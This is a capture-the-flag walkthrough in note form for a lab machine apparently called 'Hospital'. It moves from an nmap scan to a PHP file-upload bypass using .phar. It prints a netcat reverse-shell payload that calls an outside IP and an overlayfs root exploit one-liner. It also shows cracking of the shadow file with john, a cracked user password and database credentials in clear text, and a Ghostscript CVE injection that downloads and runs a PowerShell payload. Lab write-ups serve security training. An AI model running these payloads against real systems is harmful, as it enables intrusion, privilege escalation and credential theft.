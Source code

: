 #File_upload

- Scan :
```sh
PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-03-07 04:13:39Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2024-03-05T17:36:21
|_Not valid after:  2024-09-04T17:36:21
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-03-07T04:14:35+00:00
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6062/tcp open  msrpc             Microsoft Windows RPC
6404/tcp open  msrpc             Microsoft Windows RPC
6406/tcp open  msrpc             Microsoft Windows RPC
6407/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6409/tcp open  msrpc             Microsoft Windows RPC
6615/tcp open  msrpc             Microsoft Windows RPC
6635/tcp open  msrpc             Microsoft Windows RPC
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
9389/tcp open  mc-nmf            .NET Message Framing
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-07T04:14:36
|_  start_date: N/A
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

- DC :
`DC.hospital.htb`

- Login page : 
```sh
http://hospital.htb:8080/login.php
```

`User find : admin'

- Directory enum : 
```sh
index.php               
login.php               
register.php

uploads
upload.php 

images                  
css                 
js   

logout.php       
success.php     
vendor              
config.php           
fonts   
```

- Find the right extension with burp :
![[upload 2.png]]

- Script generate extension list : 

```python
var = ".php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module"
var_list = var.split(", ")

with open("extensions.txt", "w") as file:
    for extension in var_list:
        file.write(extension + "\n")
```   

![[upload 7.png]]

- Check every file that send an echo "test" : 
![[upload 6.png]]

`Same technique now check every response that print Demonize or "test"`

![[upload 4.png]]

- Check the disable function  :
![[upload 3.png]]

`The right extension is .phar and the enable function is "popen"`

- Shell : 
```sh
<?php echo fread(popen("mkfifo /tmp/f;nc 10.10.15.26 4242 0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f", "r"), 4096); ?>
```

- First Foothold privesc CVE :
```sh
$unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"/bin/sh\")'"
```

- Get the drwilliams's password : 
#Shadow_file
```sh
unshadow passwd shadow > passwords.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt 
```

`drwilliams : qwe123!@#`

- Credential database : 
```sh
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
```

- Window foothold : 
```sh
python CVE.py --inject --payload "
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.247:8080/shell.ps1')" --filename malicious.eps
```

- Github : 
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection

- Privesc : 
```cmd
C:\xampp\htdocs\shell.php
```

`Every file in htbdocs is own by Administrator so can place a webshell and get admin access ` 